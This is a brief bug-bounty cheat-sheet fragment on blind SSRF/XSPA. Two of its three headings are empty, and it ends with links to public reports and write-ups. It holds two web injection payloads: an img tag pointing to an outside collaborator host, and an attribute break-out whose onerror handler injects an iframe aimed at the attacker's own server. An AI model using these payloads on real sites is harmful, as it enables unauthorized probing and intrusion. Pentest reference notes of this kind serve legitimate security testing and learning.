 ## SSRF:


## Bind SSRF:


## Blind SSRF/XSPA:
For this vulnerability:
```
<img src="https://burp.net"></img>
"><img src="xasdasdasd" onerror="document.write('<iframe src=your server end point></iframe>')" />
```
```
https://hackerone.com/reports/517461
https://www.youtube.com/watch?v=MAKNAf1DJ0c
https://twitter.com/naman_1910/status/1346372557532848128
https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPSSRF.md
```
